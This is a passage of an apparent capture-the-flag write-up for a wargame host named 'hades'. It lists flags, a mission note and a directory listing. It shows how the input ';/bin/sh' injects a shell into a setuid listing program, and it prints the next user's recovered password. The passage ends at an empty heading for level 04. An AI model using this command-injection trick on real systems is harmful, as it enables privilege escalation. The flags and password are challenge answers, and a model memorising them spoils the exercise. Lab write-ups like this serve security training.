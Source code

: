 ### flag - 03

```plaintext
^btDtPAPzSiXmoHItpqX^
```

### 任务目标

```plaintext title="mission.txt"
The user andromeda has left us a program to list directories.
```

### 行动

```plaintext title="ls -lah"
drwxr-x--- 1 root      althea    4.0K Jan 31 19:46 .
drwxr-xr-x 1 root      root      4.0K Jul 26  2023 ..
-rw-r--r-- 1 althea    althea     220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 althea    althea    3.5K Apr 23  2023 .bashrc
-rw-r--r-- 1 althea    althea     807 Apr 23  2023 .profile
-r--r----- 1 andromeda andromeda   21 Jan 31 19:46 andromeda_pass.txt
-rw-r----- 1 root      althea      22 Jul 26  2023 flagz.txt
-rwS--s--- 1 root      althea     16K Jul 26  2023 lsme
-rw-r----- 1 root      althea     205 Jul 26  2023 mission.txt
```

```bash title="Exploit it"
andromeda@hades:~$ ./lsme
Enter file to check:
;/bin/sh
total 28
-r--r----- 1 andromeda andromeda    21 Jan 31 19:46 andromeda_pass.txt
-rw-r----- 1 root      althea       22 Jul 26  2023 flagz.txt
-rwS--s--- 1 root      althea    16216 Jul 26  2023 lsme
-rw-r----- 1 root      althea      205 Jul 26  2023 mission.txt
$ cat /pwned/althea/andromeda_pass.txt
OTWGTbHzrxhYFSTlKcOt
```

## User - andromeda

### flag - 04

```plaintext
^xzsHGrOeNctIZLGKzWq^
```

### 任务目标

```plaintext title="mission.txt"
The user anthea reminds us who we are.
```

### 行动
